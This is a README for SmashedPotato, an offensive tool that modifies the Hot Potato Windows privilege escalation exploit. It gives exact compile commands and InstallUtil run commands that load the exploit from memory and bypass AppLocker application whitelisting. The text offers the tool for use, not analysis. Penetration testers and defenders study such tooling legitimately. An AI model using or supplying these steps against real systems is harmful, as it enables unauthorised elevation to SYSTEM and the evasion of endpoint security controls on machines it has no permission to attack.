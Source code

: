 # SmashedPotato
By Cn33liz 2016

A modification of @breenmachine original Hot Potato Priv Esc Exploit

### Mofifications:

* Merged all .NET assemblies into a single assembly and Compressed this into a Byte[] array.
* Runs Potato assembly from Memory.
* Included the InstallUtil AppLocker Bypass method (Credits @SubTee).
* Made some Automation.

To Compile as x86 binary:

```
cd \Windows\Microsoft.NET\Framework\v4.0.30319

csc.exe  /out:"C:\Utils\SmashedPotatoX86.exe" /platform:x86 "C:\Utils\SmashedPotato.cs"
```

To Compile as x64 binary:

```
cd \Windows\Microsoft.NET\Framework64\v4.0.30319

csc.exe  /out:"C:\Utils\SmashedPotatoX64.exe" /platform:x64 "C:\Utils\SmashedPotato.cs"
```

To run as x86 binary and bypass Applocker (Credits for this great bypass go to Casey Smith aka subTee):

```
cd \Windows\Microsoft.NET\Framework\v4.0.30319

InstallUtil.exe /logfile= /LogToConsole=false /U C:\Utils\SmashedPotatoX86.exe
```

To run as x64 binary and bypass Applocker:

```
cd \Windows\Microsoft.NET\Framework64\v4.0.30319

InstallUtil.exe /logfile= /LogToConsole=false /U C:\Utils\SmashedPotatoX64.exe
```

### Shout-outs:

Go out to @breenmachine for his magnificent Potato code and @SubTee for his App Whitelisting techniques. 
